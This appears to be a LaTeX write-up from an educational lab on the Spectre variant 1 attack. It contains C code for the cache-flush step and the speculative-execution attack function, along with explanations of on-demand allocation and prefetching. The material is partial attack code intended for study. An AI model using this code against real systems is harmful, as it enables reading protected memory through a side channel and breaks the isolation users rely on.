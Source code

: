 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Flush side channel}
\begin{lstlisting}[style=CStyle]
void flushSideChannel()
{
	int i;
	// Write to array to bring it to RAM to prevent On-Demand-Allocation
	for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 0;
		// Flush the values of the array from cache
	for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}
\end{lstlisting}
Almost all Operating Systems implement a policy called \textbf{On-Demand-Allocation}. According to this policy the OS allocates memory to a process only if the process accesses it. Elements of array(line 4) are accessed and assigned 0(could be any value) to ensure that memory is allocated to array.\\
Flushing the elements of array is required to ensure that all elements of array are brought to cache by the function spectreAttack during \textbf{speculative execution} (go through section Spectre Attack for better understanding) \\
There is no significance of DELTA. Any other value can be used instead.\\
Only array elements present in different pages are used to ensure that they are present in different pages to overcome effects of prefetching \\

\subsubsection{Spectre Attack(variant 1)}
\begin{lstlisting}[style=CStyle]
void spectreAttack(size_t larger_x)
{
	int i;
	uint8_t s;
	// Train the CPU to take the true branch inside victim().
	for (i = 0; i < 10; i++) {
		_mm_clflush(&buffer_size);
		restrictedAccess(i);
	}
	// Flush buffer_size and array[] from the cache.
	_mm_clflush(&buffer_size);
	flushSideChannel();
	// Ask victim() to return the secret in out-of-order execution.
	s = restrictedAccess(larger_x);
	array[s*4096 + DELTA] += 88;
}
\end{lstlisting}
\end{document}
